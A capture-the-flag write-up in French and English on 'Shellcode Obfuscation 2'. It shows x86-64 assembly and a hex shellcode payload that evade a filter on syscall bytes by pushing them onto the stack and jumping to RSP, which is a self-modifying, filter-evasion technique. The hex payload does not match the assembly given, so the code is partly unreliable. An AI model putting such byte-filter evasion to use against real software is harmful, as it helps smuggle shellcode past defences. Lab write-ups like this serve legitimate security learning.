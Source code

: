 # Shellcode Obfuscation 2
## Write-up
### Solution (Français)
Ici les contraintes qui nous sont données sont de ne pas utiliser les bytes "\x05\x0f", qui sont les bytes pour faire un syscall. La difficultée viens du fait qu'on ne peux pas manipuler les bytes passées. Il faut donc trouver comment executer un syscall sans l'instruction syscall.

Utiliser int 0x80 ne fonctionne pas étant donnée qu'on est en 64bit

Une des façons de faire notre syscall est de stocker les bytes "\x05\x0f" et d'utiliser une instruction jmp pour ensuite faire notre syscall.

Comme on ne veut pas modifier nos registres précedents, on peut utiliser le registre RCX pour pousser notre code. 
On mov 0x04 et 0x0e(pour éviter d'avoir nos bytes interdits dans le payload) dans CH et CL respectivement pour avant des les incrémenter. 
On les pousse dans le stack et on peut ensuite les executer en sautant a RSP

Voici le code pour faire ça:
``` assembly
BITS 64 
push 1
dec byte ptr [rsp]
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0xa736567e86e614d
xor [rsp], rax
push 1
pop rdi
push 8
pop rdx
mov rsi, rsp
push 1
pop rax

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```
La première partie setup le syscall pour write, et la deuxieme l'execute.

Payload: `\x6a\x0b\xfe\x0c\x24\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x4c\x60\x6f\xe9\x66\x64\x72\x0b\x48\x31\x04\x24\x6a\x01\x5f\x6a\x10\x5a\x48\x89\xe6\x6a\x01\x58\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

Flag: `flag-ML5V9JD3K8WTYQZA7R6YA2C3DZ8V7T1B`

### Solution (English)
Here, the constraints given to us are not to use the "\x05\x0f" bytes, which are the bytes for a syscall. The difficulty lies in the fact that we can't manipulate past bytes. So we need to find a way of executing a syscall without the syscall instruction.

Using int 0x80 doesn't work, given that we're in 64bit.

One way of doing our syscall is to store the bytes ""\x05\x0f" and then use a jmp instruction to do our syscall.

As we don't want to modify our previous registers, we can use the RCX register to push our code. 
We move 0x04 and 0x0e (to avoid having our forbidden bytes in the payload) into CH and CL respectively before incrementing them. 
We then push them into the stack and can execute them by jumping to RSP.

Here's the code to do this:
```assembly
BITS 64 
push 1
dec byte ptr [rsp]
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0xa736567e86e614d
xor [rsp], rax
push 1
pop rdi
push 8
pop rdx
mov rsi, rsp
push 1
pop rax

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```
The first half setups the write syscall, and the second executes it.

Payload: `\x6a\x0b\xfe\x0c\x24\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x4c\x60\x6f\xe9\x66\x64\x72\x0b\x48\x31\x04\x24\x6a\x01\x5f\x6a\x10\x5a\x48\x89\xe6\x6a\x01\x58\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

Flag: `flag-ML5V9JD3K8WTYQZA7R6YA2C3DZ8V7T1B`